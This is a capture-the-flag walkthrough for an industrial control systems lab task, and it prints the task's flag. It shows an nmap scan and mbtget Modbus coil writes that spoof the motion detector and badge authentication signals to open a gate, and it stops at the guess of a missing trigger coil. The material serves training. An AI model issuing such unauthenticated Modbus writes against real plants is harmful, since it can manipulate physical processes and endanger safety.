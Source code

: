 Each task reinforces critical skills for **red teamers, blue teamers, and ICS security professionals** looking to expand their knowledge in industrial cybersecurity.

---

## 📝 **Task 3 – Breach** {#task-3--breach}

### 🗂️ **Category:** Breach

### 🎯 **Difficulty:** Beginner

### 🏷️ **Flag:** THM{s4v3\_th3\_d4t3\_27\_jun3}

---

### 🔍 **Step-by-Step Walkthrough**

#### 1. **Port scan (full TCP)**

```bash
nmap -p- -Pn -n --open -T5 10.10.6.209
```

✅ Discovered **port 502 (Modbus TCP)** open.

---

#### 2. **Reviewed Node-RED flows (contextual challenge hint)**

* Identified:

  * **Coil 20** → Motion detector
  * **Coil 25** → Badge authentication

---

#### 3. **Tested Modbus coil writes with mbtget**

Because `mbtget -r` syntax failed, used these exact working commands:

```bash
mbtget -w5 1 -u 1 -a 20 10.10.6.209  # Sets motion detector coil
mbtget -w5 1 -u 1 -a 25 10.10.6.209  # Sets badge authentication coil
```

✅ Both wrote successfully.

---

#### 4. **Verified gate did not open**

Hypothesised missing **gate trigger coil**.

---
